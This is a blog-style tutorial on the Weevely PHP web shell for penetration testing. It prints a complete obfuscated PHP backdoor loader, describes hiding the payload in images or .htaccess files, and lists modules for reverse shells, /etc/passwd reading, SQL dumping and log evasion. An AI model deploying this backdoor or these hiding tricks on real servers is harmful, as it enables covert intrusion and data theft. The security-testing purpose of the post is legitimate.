 ```yaml
---
date: 2015-02-19
title: Weevely
tags:
- backdoor
- remote command execution
see_also:
  -
    link: Introduction to pentesting
    url: http://10degres.net/introduction-to-pentesting/
---
```

Weevely is a PHP command line web shell usually used as a backdoor while performing the post exploitation phase of a penetration test. 
By default in Kali Linux, the installed version 1.1 isn't supported anymore but version 3 is available on [GitHub](https://github.com/epinna/weevely3 "Weevely on GitHub").

Generate the backdoor:

`weevely generate.<mode> <password> <path>`

The password is optionnal but it's important to protect your customer from other users because an unwanted access can easily lead to a full access on the server with privileges escalation. There is three kinds of backdoor available but this functionnality seems to have been removed in version 3.

- **htaccess**: a single `.htaccess` file is created containing the malicious code and the right Apache directive so that all `.htaccess` files are considered as regular PHP script
- **img**: giving an existing image, Weevely will concatenate the binary datas and the malicious code, plus it also creates an `.htaccess` 
to tell Apache that the image should be considered as a regular PHP script (that means both files should be uploaded on the target server)
- **php**: this is the default, a single PHP script is generated

<!--more-->

Example:

![Weevely generate](/images/weevely-generate.png)

A `sessions` directory has also been created to log every command. 
No matter what creation mode you choosed the obfuscated generated PHP code looks like this:

```php
<?php
$ztqi = str_replace("h","","hshtrh_rhehphlhahche");
$hule="am9pbihhcnJhehrV9zbGhrljZSgkYSwkhrYhrygkYhrSktMykpKShrkpO2VjaG8gJzwvJhry4kay4nhrPic7fQ==";
$xhmv="PSdlcnRhr5JztlY2hvIhrCc8Jy4kay4nPihrc7ZXhrZhbChiYXNlNjRfZGVjbhr2RlKHBhryZWdfchrmVhrwbGFjZ";
$ezko="ShhcnJheSgnL1hrteXHc9XHNdLycsJy9chrcy8nKSwgYXJyYXkohrJyhrcshrJyhrsnKSwg";
$kyjf="JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYhrSk9PSdheicgJihrYgJGMoJGEpPjMpeyRr";
$tjbu = $ztqi("g", "", "basgeg6g4g_gdgegcgode");
$plri = $ztqi("y","","cyreyatye_yfuynycytyiyon");
$pigj = $plri('', $tjbu($ztqi("hr", "", $kyjf.$xhmv.$ezko.$hule))); $pigj();
?>
```

There is different ways to inject the backdoor on the target server: file upload, SQL injection and so on... 
Once you have infected your target, you can connect to the client with the password you choosed:

![Weevely connect](/images/weevely-connect.png)

Running `:help `will display the list of all modules available or the detailed usage informations of the given module.

| Command              | Description |
| -------------------- | ------------- |
| :audit.systemfiles   | Find wrong system files permissions |
| :audit.phpconf       | Check php security configurations |
| :audit.mapwebfiles   | Crawl and enumerate web folders files permissions |
| :audit.userfiles     | Guess files with wrong permissions in users home folders |
| :audit.etcpasswd     | Enumerate users and /etc/passwd content |
| :shell.sh            | Execute system shell command |
| :shell.php           | Execute PHP statement |
| :system.info         | Collect system informations |
| :backdoor.reversetcp | Send reverse TCP shell |
| :backdoor.tcp        | Open a shell on TCP port |
| :bruteforce.sqlusers | Bruteforce all SQL users |
| :bruteforce.sql      | Bruteforce SQL username |
| :file.edit           | Edit remote file |
| :file.mount          | Mount remote filesystem using HTTPfs |
| :file.webdownload    | Download web URL to remote filesystem |
| :file.touch          | Change file timestamps |
| :file.upload2web     | Upload binary/ascii file into remote web folders and guess corresponding url |
| :file.download       | Download binary/ascii files from the remote filesystem |
| :file.enum           | Enumerate remote paths |
| :file.read           | Read remote file |
| :file.upload         | Upload binary/ascii file into remote filesystem |
| :file.check          | Check remote files type, md5 and permission |
| :file.rm             | Remove remote files and folders |
| :file.ls             | List directory contents |
| :sql.console         | Run SQL console or execute single queries |
| :sql.dump            | Get SQL database dump |
| :net.phpproxy        | Install remote PHP proxy |
| :net.ifaces          | Print interfaces addresses |
| :net.scan            | Port scan open TCP ports |
| :net.proxy           | Install and run Proxy to tunnel traffic through target |
| :find.suidsgid       | Find files with superuser flags |
| :find.name           | Find files with matching name |
| :find.perms          | Find files with write, read, execute permissions |

Another good point for Weevely is the verbosity, the remote agent is very low footprint. Below my Apache logs after running some commands:

![Weevely traces](/images/weevely-traces.png)

As you may notice the user-agent has also been randomized wich is usually a good idea...


## External resources

- [Introduction to pentesting]({{< ref "/posts/introduction-to-pentesting" >}})

